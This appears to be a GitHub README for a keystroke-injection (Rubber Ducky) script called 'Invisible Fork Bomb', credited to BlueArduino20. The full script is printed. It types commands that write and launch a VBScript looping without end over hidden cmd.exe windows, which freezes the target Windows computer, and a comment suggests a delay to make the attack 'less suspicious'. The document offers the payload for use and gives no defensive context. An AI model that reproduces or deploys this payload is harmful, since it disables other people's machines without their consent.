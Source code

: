 # Invisible Fork Bomb
The script creates and starts a vbs that executes exponentially cmd.exe (Fork bomb -> Freezes the PC).

# About...
Author: [BlueArduino20](https://github.com/BlueArduino20/)

Version 1.0

Repository: [https://github.com/BlueArduino20/Invisible_fork_bomb](https://github.com/BlueArduino20/Invisible_fork_bomb)

# Code
<pre><code>
GUI r
DELAY 500
STRING cmd
ENTER
DELAY 500
STRING copy con forkb.vbs
ENTER
STRING do
ENTER
STRING CreateObject("Wscript.Shell").Run "cmd", 0, False
ENTER
STRING loop
CTRL z
ENTER
DELAY 50
REM STRING ping localhost -n 10
REM You can uncomment this ^ to delay 10 seconds before starting the fork bomb. (By this way it's less suspicious)
STRING start forkb.vbs
ENTER
</pre></code>